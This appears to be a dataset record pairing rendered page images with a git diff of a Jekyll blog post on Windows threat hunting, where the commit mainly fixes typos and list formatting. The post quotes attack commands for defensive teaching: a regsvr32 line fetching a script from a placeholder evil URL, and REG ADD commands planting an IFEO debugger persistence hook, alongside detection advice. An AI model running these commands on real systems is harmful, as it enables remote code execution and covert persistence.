

Before and after one commit to Th1ru-M/th1ru-m.github.io, a Jekyll site: the page built from _posts/2024-12-8-WindowsThreatHunting-Part1.md, in a window 1280 px wide. Shown: the part 598-2518 px from the top of the page at 81% size, without its empty margins (357-1149 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some web fonts are replaced; some of the changed text lies outside the part shown.

Commit message:
Update 2024-12-8-WindowsThreatHunting-Part1.md

```diff
--- a/_posts/2024-12-8-WindowsThreatHunting-Part1.md
+++ b/_posts/2024-12-8-WindowsThreatHunting-Part1.md
@@ -12,15 +12,15 @@ Threat hunting in a Windows environment involves the proactive search for indica
 
 ### **<u>Application Whitelisting Bypass: regsvr32.exe</u>**
 
-In computing, regsvr32 (Microsoft Register Server) is a command-line utility in Microsoft Windows operating systems for registering and unregistering DLLs and ActiveX controls in the Windows Registry. Adversaries can still use Regsvr32.exe on Windows to download and execute files
+In computing, regsvr32 (Microsoft Register Server) is a command-line utility in Microsoft Windows operating systems for registering and unregistering DLLs and ActiveX controls in the Windows Registry. Adversaries can still use Regsvr32.exe on Windows to download and execute files.
 
 `regSvr32 /s /n /u /i:http[:]//<URL/evil.sct scrobj.dll`
 
-`regsvr32` is invoking scrobj.dll to unregister COM objects defined in the evil.sct. Malicious code will be used in the sct file.
-The SCT file ( an XML file) has a registration tag in it that can contain VBScript or JScript code.  The file can have any extension.It does not have to be `.sct`. There will be no artifacts left in registry if this utility is unregistering any COM object.
+regsvr32 utlity is invoking scrobj.dll to unregister COM objects defined in the evil.sct. Malicious code will be used in the sct file.
+The SCT file ( an XML file) has a registration tag in it that can contain VBScript or JScript code.  The file can have any extension. It does not have to be `.sct`. There will be no artifacts left in registry if this utility is unregistering any COM object.
 
 <u>Detection:</u>
-- Look for regsvr32.exe prefetch files and Parsing the prefetch will provide the executed file
+- Look for regsvr32.exe prefetch files and parsing the prefetch will provide the executed file
 - Command execution and arguments passed to regsvr32.exe using EDR solutions
 - Look for suspicious process in the system with parent process as regsvr32
 - Hunt for Windows event id 4688 and filter the command arguments with following filter
@@ -32,7 +32,7 @@ Detailed Tracking have to be enabled for recording process command arguments.
 
 ### **<u>Audit log cleared</u>**
 
-Adversaries may clear the Windows audit logs to remove its footpath. Whenver audit logs are cleared , Windows triggers event id 104 or 1102 or 517.Look for these event ids in the machine and start your analysis.
+Adversaries may clear the Windows audit logs to remove its footpath. Whenever audit logs are cleared, Windows triggers event id 104 or 1102 or 517. Look for these event ids in the machine and start your analysis.
 
 <u>Detection:</u>
 - Look for Event IDs 104,1102,517
@@ -42,12 +42,12 @@ Adversaries may clear the Windows audit logs to remove its footpath. Whenver aud
 Image File Execution Options (IFEO) are used for debugging and IFEO settings are stored in the Windows registry. This feature enables the developer to to attach a debugger to the known executables. Malwares exploit this feature for its persistence by adding a debugger to the below executables. whenever the below utilities are triggered, malcious executable will be executed.
 
 `Windows Utilities`:
-sethc.exe
-magnify.exe
-narrator.exe
-osk.exe
-utilman.exe
-displayswitch.exe
+- sethc.exe
+- magnify.exe
+- narrator.exe
+- osk.exe
+- utilman.exe
+- displayswitch.exe
 
 `REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /d "C:/evil.exe"`
 
@@ -132,7 +129,7 @@ Adversaries use this techniques to evade AV or application blacklisting techniqu
 
 ### **<u>Abusing Image File Execution Option</u>**
 
-Image File Execution Options (IFEO) are used for debugging. IFEO settings are stored in the Windows registry. This feature enables the developer to to attach a debugger to the known executables. Malwares can exploit this feature for its persistence. For example  by adding a debugger to the  known applications like calc.exe to execute malicious file named evil.exe, whenever the user opens calc.exe, evil.exe will be executed.
+Image File Execution Options (IFEO) are used for debugging. IFEO settings are stored in the Windows registry. This feature enables the developer to to attach a debugger to the known executables. Malwares can exploit this feature for its persistence. For example, by adding a debugger to the  known applications like calc.exe to execute malicious file named evil.exe. Whenever the user opens calc.exe, evil.exe will be executed.
 
 `REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\calc.exe" /v Debugger /d "C:/evil.exe"`
 
```
Also changed, not shown: other parts of _posts/2024-12-8-WindowsThreatHunting-Part1.md (+24 -29 lines).
